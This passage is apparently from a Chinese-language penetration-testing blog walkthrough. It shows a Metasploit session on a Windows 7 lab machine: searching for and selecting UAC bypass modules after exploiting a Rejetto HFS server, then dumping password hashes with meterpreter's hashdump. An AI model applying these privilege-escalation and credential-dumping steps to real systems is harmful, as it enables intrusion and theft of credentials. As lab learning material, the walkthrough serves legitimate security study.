 ```
meterpreter > background
[*] Backgrounding session 11...

msf exploit(windows/http/rejetto_hfs_exec) > search bypassuac

Matching Modules
================

   Name                                              Disclosure Date  Rank       Description
   ----                                              ---------------  ----       -----------
   exploit/windows/local/bypassuac                   2010-12-31       excellent  Windows Escalate UAC Protection Bypass
   exploit/windows/local/bypassuac_comhijack         1900-01-01       excellent  Windows Escalate UAC Protection Bypass (Via COM Handler Hijack)
   exploit/windows/local/bypassuac_eventvwr          2016-08-15       excellent  Windows Escalate UAC Protection Bypass (Via Eventvwr Registry Key)
   exploit/windows/local/bypassuac_fodhelper         2017-05-12       excellent  Windows UAC Protection Bypass (Via FodHelper Registry Key)
   exploit/windows/local/bypassuac_injection         2010-12-31       excellent  Windows Escalate UAC Protection Bypass (In Memory Injection)
   exploit/windows/local/bypassuac_injection_winsxs  2017-04-06       excellent  Windows Escalate UAC Protection Bypass (In Memory Injection) abusing WinSXS
   exploit/windows/local/bypassuac_sluihijack        2018-01-15       excellent  Windows UAC Protection Bypass (Via Slui File Handler Hijack)
   exploit/windows/local/bypassuac_vbs               2015-08-22       excellent  Windows Escalate UAC Protection Bypass (ScriptHost Vulnerability)

msf exploit(windows/http/rejetto_hfs_exec) > use exploit/windows/local/bypassuac_eventvwr
msf exploit(windows/local/bypassuac_eventvwr) > show options

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on.


Exploit target:

   Id  Name
   --  ----
   0   Windows x86
```

然而这些搜索到的bypassuac对我的Windows 7环境无效。所有还是以管理员身份运行HFS吧。也就是说，我们现在已经有了system权限。

来提取一下hash。很奇怪，直接hashdump会失败：

![Screen Shot 2018-10-19 at 9.25.19 AM.png]({{ site.url }}/images/metasploit/B620862A5F1EB4FB2FCEB8738088AA05.png)

但是`run hashdump`，也就是用script，会成功：
